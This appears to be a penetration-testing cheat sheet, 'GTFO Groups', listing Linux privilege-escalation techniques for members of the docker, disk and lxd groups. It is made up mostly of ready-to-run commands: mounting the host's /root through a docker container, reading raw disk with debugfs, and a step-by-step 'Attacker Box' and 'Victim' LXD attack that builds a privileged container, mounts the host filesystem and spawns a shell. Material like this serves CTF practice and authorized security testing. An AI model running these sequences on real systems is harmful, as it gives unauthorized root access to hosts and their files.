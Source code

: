 # GTFO Groups

### Docker

Try to use an existing image. You can mount directories from the host, and therefore read/write all files.

```text
docker run -v /root:/mnt/xct -ti ubuntu
```

### Disk

Privileged File Read: `debugfs /dev/sdax`

### LXD

On Attacker Box:

```bash
sudo apt install lxd zfsutils-linux
usermod --append --groups lxd xct
lxd init (choose dir instead of zfs)
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
lxc launch ubuntu:18.04
lxc list

git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

Upload the .tar.gz that is built.

On Victim:

```bash
lxd init
lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias xct
lxc image list
lxc init xct ignite -c security.privileged=true
lxc config device add ignite xct disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

Host file system will be mounted in /mnt/root.


